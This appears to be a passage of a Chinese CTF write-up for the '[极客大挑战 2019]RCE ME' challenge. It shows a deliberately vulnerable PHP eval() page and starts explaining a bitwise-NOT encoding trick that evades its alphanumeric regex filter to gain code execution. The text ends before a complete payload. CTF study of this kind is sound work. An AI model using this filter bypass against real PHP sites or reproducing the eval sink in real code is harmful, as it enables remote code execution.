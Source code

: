 # [极客大挑战 2019]RCE ME 取反绕过正则匹配 绕过disable_function设置

**目录**

[TOC]





有意思。。。。

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}
 
// ?>
```

过滤了数字字母

我们要绕过并且执行rce

这里使用取反和异或都可以

## 取反

我们首先来了解一下取反

```php
<?php
 
$c='phpinfo';
$d=urlencode(~$c);
echo $d;
?>
```

通过这个代码 我们可以将字符取反并且通过url编码返回

所以在正则的时候 不会进行匹配

所以我们可以直接通过这个来构造payload
